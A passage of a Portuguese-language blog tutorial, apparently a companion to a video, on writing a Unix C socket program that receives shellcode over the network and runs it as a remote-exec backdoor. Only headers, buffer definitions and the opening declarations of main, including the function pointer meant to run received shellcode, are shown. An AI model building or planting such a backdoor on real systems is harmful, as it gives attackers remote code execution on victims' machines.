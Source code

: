 ```yaml
---
layout: post
title: Socket Criando Shellcode Remote exec 0xc4
categories: [c programming]
tags: [shellcode remote, linux,execute]
fullview: true
comments: true
---
```

<p>Novamente volto a falar, meu parceiro tudo que diz respeito a C com socket para Unix, vai ser bem vindo para nós. O grande lance é ganhar a lógica em Unix já que em windows a coisa muda um pouco porque vamos usar API, tudo no windows são as API's, até quando começamos a aprender assembly vamos dar uma passadinha por windows e vamos ver muita coisa sobre ela, mas no momento vamos continuar com nosso UNix :D; precisamos entender a fundo pois depois vamos apender a 'codar' do zero um socket PNET lol level total. Let's Gooooo: Na verdade esse artigo vai ser um complemento de um video meu não deu pra explicar tudo no video questão de tempo parceiro. Fiz o video para demostrar e acabei dando uma passada rápida no código em C, expliquei tudo de python, mas não em C vamos agora entender. #partiu</p>
<p>O foco aqui é C, outras coisas já vai da pra entender no video. só pra deixar bem claro  no video falo que os creditos não são meus já que o 'Vivik' que criou o script,eu já tinha feito algum parecido em Python como falei no video "como fazer um backdoor em python", que há uma possibilidade injetar um shellcode na memória. Agora vamos para o artigo, não vou falar dos Hearders já falei nos artigos passado não muda nada e também usa o google parceiro :D é uma ferramenta impressionante. então vai ai</p>
{% highlight c++ %}
//tirem os espaços das bibliotecas :D, é que da uns bug quando deixo com sem eles
#include< stdio.h >
#include< stdlib.h >
#include< sys/socket.h >
#include< sys/types.h >
#include< error.h >
#include< strings.h >
#include< unistd.h >
#include< string.h >
#include< arpa/inet.h >
{% endhighlight %}
<p>já que estou usando o a biblioteca 'error.h' como citei em um artigo passado fica mais dinâmico, também é questão de deixar as coisas mais profissionais :D coisa de programadores; string.h pois vamos usar o shellcode é ele nada mais é que uma string só que em Hexadecimal, as demais já são conhecida então vamos continuar :p.</p>
{% highlight c++ %}
#define ERROR	-1
#define MAX_DATA	2048
#define MAX_SHELLCODE_LEN	4096

char shellcode[MAX_SHELLCODE_LEN];
{% endhighlight  %}
<p>Essas linhas acima também né ? define se nossa comunicação voltar -1 claro da um erro, e define tanho do máximo de dados e tamanho máximo do shellcode. isso é muito simples logo abaixo vai ficar tudo claro. As linhas que vem agora são totalmente conhecida por você lembra do outro artigo, falamos sobre a mesma e espero que tenha compreendido a função de cada uma mesmo assim vou comentar cada linha há vai assim mesmo vamos entender tudo novamente.</p>
{% highlight c++ %}
main(int argc, char **argv)
{
	struct sockaddr_in server; // estrutura server
	struct sockaddr_in client; // estrutura cliente
	int sock; // criar do descritor
	int new; //segundo descritor
	int sockaddr_len = sizeof(struct sockaddr_in); // tamanho da estrutura
	int data_len, shellcode_len; // variáveis de controle de dados
	char data[MAX_DATA]; // string com 2048 bytes
	int (*fptr)(); // ponteiro que no final vai entender o porque :D